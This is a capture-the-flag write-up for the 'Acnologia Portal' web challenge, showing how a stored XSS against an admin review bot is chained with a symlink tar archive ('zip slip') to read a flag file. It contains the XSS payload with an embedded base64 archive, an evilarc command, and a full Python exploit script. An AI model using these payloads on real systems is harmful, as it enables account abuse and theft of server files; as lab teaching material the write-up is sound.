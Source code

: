 ```yaml
---
path: "/writeups/cyber-apocalypse-ctf-2022-intergalactic-chase"
date: 2022-05-15
title: "Cyber Apocalypse CTF 2022 - Intergalactic Chase"
category: "writeup"
enabled: true
hidden: true
---
```


***

# Acnologia Portal
### Category: Web

## Description
Bonnie has confirmed the location of the Acnologia spacecraft operated by the Golden Fang mercenary. Before taking over the spaceship, we need to disable its security measures. Ulysses discovered an accessible firmware management portal for the spacecraft. Can you help him get in?

## Initial thoughts
For this challenge, we're given an endpoint to the "Acnologia Firmware Portal", which is just a login screen, as well as a zip file containing the source code. The code looks to be written using the Flask framework.

In `routes.py` we can see all the endpoints available to us. Many of the endpoints are publically available, but some require you to be logged in, be an administrator, or some combination of the two.

I created an account, and after logging in was given a list of firmware and the ability to report a bug on each.

![Login](./images/amidst-us/login.png)
![Firmware list](./images/amidst-us/firmware-list.png)

Looking at `routes.py` I could see that after posting a firmware report, a function called `visit_report()` is called. This function launches a selenium driver in `bot.py` that visits the report review page using a bot with administrative credentials. This immediately indicates an XXS injection.

```python
# routes.py

@api.route('/firmware/report', methods=['POST'])
@login_required
def report_issue():
    if not request.is_json:
        return response('Missing required parameters!'), 401

    data = request.get_json()
    module_id = data.get('module_id', '')
    issue = data.get('issue', '')

    if not module_id or not issue:
        return response('Missing required parameters!'), 401

    new_report = Report(module_id=module_id, issue=issue, reported_by=current_user.username)
    db.session.add(new_report)
    db.session.commit()

    # highlight-start
    visit_report()
    # highlight-end
    migrate_db()

    return response('Issue reported successfully!')
```

If we look at the Jinja2 template for the review page, we confirm our XXS theory. The `{{ report.issue | safe }}` directive tells Jinja2 not to sanitize the value of `report.issue`. We can control the value of `report.issue` when we submit a report, allowing us to XXS the admin bot.

```python
# review.html

...
    <div class="container" style="margin-top: 20px"> {% for report in reports %} <div class="card">
        <div class="card-header"> Reported by : {{ report.reported_by }}
        </div>
        <div class="card-body">
        <p class="card-title">Module ID : {{ report.module_id }}</p>
          # highlight-start
          <p class="card-text">Issue : {{ report.issue | safe }} </p>
          # highlight-end
          <a href="#" class="btn btn-primary">Reply</a>
          <a href="#" class="btn btn-danger">Delete</a>
        </div>
      </div> {% endfor %} </div>
  </body>
</html>
```

Before crafting an XXS, I needed to know what we want the bot to do. Looking at the Dockerfile we see that `flag.txt` is copied to the root of the Linux instance, and somehow we need to read this file.

## Zip slip
One endpoint of interest is `/firmware/upload`, which requires admin access. It takes a file from a POST request and calls `extract_firmware()`.

```python
# routes.py

@api.route('/firmware/upload', methods=['POST'])
@login_required
@is_admin
def firmware_update():
    if 'file' not in request.files:
        return response('Missing required parameters!'), 401

    extraction = extract_firmware(request.files['file'])
    if extraction:
        return response('Firmware update initialized successfully.')

    return response('Something went wrong, please try again!'), 403
```

`extract_firmware()` does the following:
* Copies a tar.gz file to the `/tmp` directory
* Extracts the tar.gz
* Copies the extracted files to a randomly-generated directory in `static/firmware_extract`

This sounds like it would be a zip slip. Something interesting is that tar.gz files allow you to tar existing symlinks and have them maintain their link when untarred on a different system. If we tar a file that is symlinked to `/flag`, we can zip slip this file into the static folder on the challenge instance (which is publically accessible) and then read it from there.

I used a tool called [evilarc](https://github.com/ptoomey3/evilarc) to generate the zip slip tar.gz file. I used the following command:

```shell
python2 evilarc.py -o unix -d 1 -f zip.tar.gz zip-dir/ -p app/application/static/firmware_extract
```

## The XXS
I took the base64 of this file and crafted an XXS injection to send a POST request using fetch. This will trick the bot into uploading this file.

I used the following XXS injection and submitted this as a firmware report.

```html
<script>
    const formData = new FormData();

    const base64str = "H4sICFWrgWIC/3ppcC50YXIA7dFBCsIwEIXhHCUnSNKkIceRUFqptFrSiHp700VBXGhREIT/g+EtZjbDU0rHaVpm6JuY+9NRz7lko7s+jZeY2l17zSk2WYtPmSJ4v2QVvHnMlahqWxtnvTdBGFvVzgnpxQ+cy7tJSnGIYzu/uHu3Xx9Z80+o7f3Pt/GL/kPY0r+z1pX+XTBeSKu7Ie5Vvmb6BwAAAAAAAAAAAAAAAIBnd4IsRacAKAAA";

    var binary = atob(base64str.replace(/\s/g, ''));
    var len = binary.length;
    var buffer = new ArrayBuffer(len);
    var view = new Uint8Array(buffer);
    for (var i = 0; i < len; i++) {
        view[i] = binary.charCodeAt(i);
    }

    var blob = new Blob( [view], { type: "application/gzip" });
    formData.append("file", blob, "zip.tar.gz");
    fetch("http://localhost:1337/api/firmware/upload", {credentials: "include", method: "POST", body: formData});
</script>
```

Once the bot visits the review page, it will use its admin credentials to upload our tar.gz file to the `/firmware/upload` endpoint. The Flask code will then attempt to un-tar the file, and our zip slip will put the symlink into `/app/application/static/firmware_extract` on the challenge filesystem.

We can then navigate to the endpoint `/static/firmware_extract/symlink` and `flag.txt` will be downloaded onto our computer.

## Final script
I wrote this Python 3 script that does all the steps.

```python
import requests

def main():
    endpoint = "http://127.0.0.1"
    port = "1337"

    requests.post(f"{endpoint}:{port}/api/register", json={"username": "Articuler", "password": "foobar"})
    login = requests.post(f"{endpoint}:{port}/api/login", json={"username": "Articuler", "password": "foobar"})

    cookies = {
        "session": login.cookies["session"],
        "nc_sameSiteCookiestrict": "true",
        "nc_sameSiteCookielax": "true"
    }

    xss = """<script>
    const formData = new FormData();

    const base64str = "H4sICFWrgWIC/3ppcC50YXIA7dFBCsIwEIXhHCUnSNKkIceRUFqptFrSiHp700VBXGhREIT/g+EtZjbDU0rHaVpm6JuY+9NRz7lko7s+jZeY2l17zSk2WYtPmSJ4v2QVvHnMlahqWxtnvTdBGFvVzgnpxQ+cy7tJSnGIYzu/uHu3Xx9Z80+o7f3Pt/GL/kPY0r+z1pX+XTBeSKu7Ie5Vvmb6BwAAAAAAAAAAAAAAAIBnd4IsRacAKAAA";

    var binary = atob(base64str.replace(/\s/g, ''));
    var len = binary.length;
    var buffer = new ArrayBuffer(len);
    var view = new Uint8Array(buffer);
    for (var i = 0; i < len; i++) {
        view[i] = binary.charCodeAt(i);
    }

    var blob = new Blob( [view], { type: "application/gzip" });
    formData.append("file", blob, "zip.tar.gz");
    fetch("http://localhost:1337/api/firmware/upload", {credentials: "include", method: "POST", body: formData});
    </script>"""

    json = {
        "module_id": "test",
        "issue": xss
    }

    r = requests.post(endpoint + ":" + port + "/api/firmware/report", cookies=cookies, json=json)
    print(r.text)

main()
```

## Flag
```
HTB{des3r1aliz3_4ll_th3_th1ngs}
```
***
